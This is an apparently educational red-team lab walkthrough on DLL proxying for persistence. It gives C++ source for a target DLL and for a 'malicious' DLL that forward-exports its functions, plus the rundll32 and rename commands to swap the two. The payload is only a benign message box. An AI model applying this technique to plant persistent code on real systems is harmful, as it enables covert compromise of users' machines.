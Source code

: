# DLL Proxying for Persistence

This is a quick lab to get familiar with a technique that's been on my todo list for some time - DLL proxying. This technique could be used for persistence or to intercept data, but in this lab, I am only concerned with persistence.

## Overview

In the context of malware, DLL proxying is a DLL hijacking technique, where a legitimate DLL say, `legit.dll` is renamed to `legit1.dll` and a malicious dll, which exports **all** the same functions that the `legit1.dll` exports, is placed instead of `legit.dll`.

Once the dll is hijacked, whenever a program calls a function, say `exportedFunction1` from `legit.dll`, here is what happens:

* `legit.dll` gets loaded into the calling process and executes its malicious code, say reaches out to the C2
* `legit.dll` forwards the call to `exportedFunction1` in `legit1.dll`
* `legit1.dll` executes the `exportedFunction1`

This function forwarding from one DLL to another is what gives the technique its name - DLL proxying, since the malicious DLL is sitting in between the application calling the exported function and a legitimate DLL that implements that exported function.

At a high-level, below diagram shows how it all looks before and after the DLL is hijacked:

![](../../.gitbook/assets/image%20%28745%29.png)

## Walkthrough

At a high level, the technique works as follows:

1. Decide on which DLL to hijack. Let's say, it's located in c:\temp\legit.dll. Move it to c:\temp\legit1.dll
2. Get a list of all the exported functions of c:\temp\legit1.dll
3. Create a malicious DLL malicious.dll, that once loaded by the target process, executes your payload
4. Inside the malicious.dll, redirect/forward **all** the exported functions by legit.dll \(this is the DLL we are hijacking\) to legit1.dll \(this is still the same DLL we are hijacking, just with a new name\) 
5. Copy malicious.dll to c:\temp\legit.dll
6. At this point, any program that calls an **any** exported function in legit.dll will now execute your malicious payload and then transfer the execution to the same exported function in c:\temp\legit1.dll.

### Target DLL

For demo purposes, we will create our own DLL legitimate DLL to be hijacked, called `legit.dll`:

{% tabs %}
{% tab title="legit-dll.cpp" %}
```cpp
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport) VOID exportedFunction1(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction1", "Hi from legit exportedFunction1", 0);
}

extern "C" __declspec(dllexport) VOID exportedFunction2(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction2", "Hi from legit exportedFunction2", 0);
}

extern "C" __declspec(dllexport) VOID exportedFunction3(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction3", "Hi from legit exportedFunction3", 0);
}
```
{% endtab %}
{% endtabs %}

Let's say we've now compiled the above as a `legit.dll` to `c:\temp\legit.dll`. It has 3 exported functions as shown below:

![](../../.gitbook/assets/image%20%28638%29.png)

To confirm the DLL works, we can see that calling `exportedFunction1` from inside the `legit.dll` gives a popup like this:

```text
rundll32 c:\temp\legit.dll,exportedFunction1
```

![](../../.gitbook/assets/image%20%28631%29.png)

We now have the `legit.dll` and its target function `exportedFunction1` to hijack, let's move on to the malicious DLL that will do the function proxying.

### Malicious DLL

Let's now create the `malicious.dll` - we will be using it to hijack programs that call functions from `c:\temp\legit.dll`. Compile the below as a `malicious.dll`:

{% tabs %}
{% tab title="malicious-dll.cpp" %}
```cpp
#include "pch.h"

#pragma comment(linker, "/export:exportedFunction1=legit1.exportedFunction1")
#pragma comment(linker, "/export:exportedFunction2=legit1.exportedFunction2")
#pragma comment(linker, "/export:exportedFunction3=legit1.exportedFunction3")

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        MessageBoxA(NULL, "Hi from malicious dll", "Hi from malicious dll", 0);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
{% endtab %}
{% endtabs %}

The key piece in the `malicious.dll` is the `#pragma` comment at the top, that tells the linker to export / forward \(technical name is `Forward Export`\) functions `exportedFunction1`, `exportedFunction2`, `exportedFunction3` to the module `legit1.dll`.

Also, note that once the `malicious.dll` is loaded, it will display a prompt saying `Hi from malicious dll`, but this could be any payload of our choice:

![](../../.gitbook/assets/image%20%28625%29.png)

Let's test if the `malicious.dll` executes our payload - shows a message prompt:

```text
rundll32 malicious.dll,whatever
```

![](../../.gitbook/assets/image%20%28688%29.png)

### DLL Proxying / Hijacking

We now have all the required pieces to test the dll proxying concept. 

Let's move the `malicious.dll` to `c:\temp`, where `legit.dll` resides:

![](../../.gitbook/assets/image%20%28730%29.png)

Rename the `legit.dll` to `legit1.dll` and `alicious.dll` to `legit.dll`:

```text
mv .\legit.dll .\legit1.dll; mv .\malicious.dll .\legit.dll
```

![](../../.gitbook/assets/rename-files.gif)

### Moment of Truth

Now, let's invoke the `exportedFunction1` from `legit.dll` - this is our malicious DLL with DLL proxying enabled.

If the hijacking is successful, we will see the prompt `Hi from malicious dll` followed by the prompt `Hi from legit exportedFunction1` from the `legit1.dll`:

![Successful DLL proxying in action](../../.gitbook/assets/dll-proxying-forwarding-in-action.gif)

Implementing DLL proxying for a DLL that exports many functions may be a bit painful, but luckily there are multiple projects that help you automate this process, one of which is [https://github.com/Flangvik/SharpDllProxy](https://github.com/Flangvik/SharpDllProxy), so go check it out.

## References

[https://dl.packetstormsecurity.net/papers/win/intercept\_apis\_dll\_redirection.pdf](https://dl.packetstormsecurity.net/papers/win/intercept_apis_dll_redirection.pdf)

